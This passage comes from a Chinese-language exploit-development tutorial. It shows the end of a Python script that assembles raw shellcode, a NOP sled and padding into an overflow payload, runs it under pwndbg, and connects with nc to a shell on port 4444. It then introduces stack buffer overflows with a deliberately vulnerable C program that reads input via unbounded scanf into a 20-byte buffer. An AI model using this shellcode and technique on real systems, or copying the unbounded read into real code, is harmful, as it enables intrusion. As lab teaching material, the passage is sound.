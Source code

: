 ```
buf += "\xc3\xc4\x23\xca\x18\x21\xc0\x7e\xdc\x9e\x6d\x83\x6b" 
buf += "\xc1\xc2\xe5\xa6\x81\x78\xb4\x6a\xe9\x7c\x48\x9a\xb5" 
buf += "\xea\x58\xcd\x15\x62\xb9\x87\xf3\x2c\xf7\xd8\x72\x8d" 
buf += "\x03\x6a\x80\xbe\x6a\x41\x08\xfd\xc2\x3f\xc5\x82\xb0" 
buf += "\x99\xbf\xbd\xee\xd4\xbf\x8b\x77\x1f\xd7\x24\xa7\xac" 
buf += "\x4f\x53\x98\x30\xe6\xcd\x6f\x57\xa8\x42\xf9\x79\xf8" 
buf += "\x6e\x34\xf9"  
postfix = 'X' *(250 - len(buf))  
print (w1 + w2 + w3 + w4 + form + nopsled + buf + postfix) 
```

我们添加了一个后缀，使注入字符的总数保持不变。

28.  现在使用有效负载运行应用程序：

```
pwndbg> run $(./exp2.py)    
```

29.  现在尝试连接`nc`作为 shell 代码，打开端口`4444`，并尝试运行以下命令：

![](../images/00126.jpeg)

我们可以在调试器中看到以下详细信息：

![](../images/00127.jpeg)

# 缓冲区溢出

缓冲区溢出可能导致程序崩溃或泄漏私人信息。对于正在运行的程序，缓冲区可以被视为计算机主内存中具有特定边界的一部分，因此基本上可以访问该内存空间分配区域之外的任何缓冲区。

由于变量一起存储在堆栈/堆中，因此访问此边界之外的任何内容都可能导致读取/写入某些其他变量的某些字节。但是有了更好的理解，我们可以执行一些攻击。

# 怎么做。。。

按照以下步骤为 Linux 环境中的缓冲区溢出攻击生成攻击代码：

1.  我们必须为测试创建一个易受攻击的应用程序。创建一个`bof.c`文件并添加以下代码：

```
#include <stdio.h>  
void secretFunction() 
{ 
printf("Congratulations!\n"); 
printf("You have entered in the secret function!\n"); 
}  
void echo() 
{ 
char buffer[20];  
printf("Enter some text:\n"); 
scanf("%s", buffer); 
printf("You entered: %s\n", buffer); 
}  
int main() 
{ 
echo(); 
return 0; 
} 
```
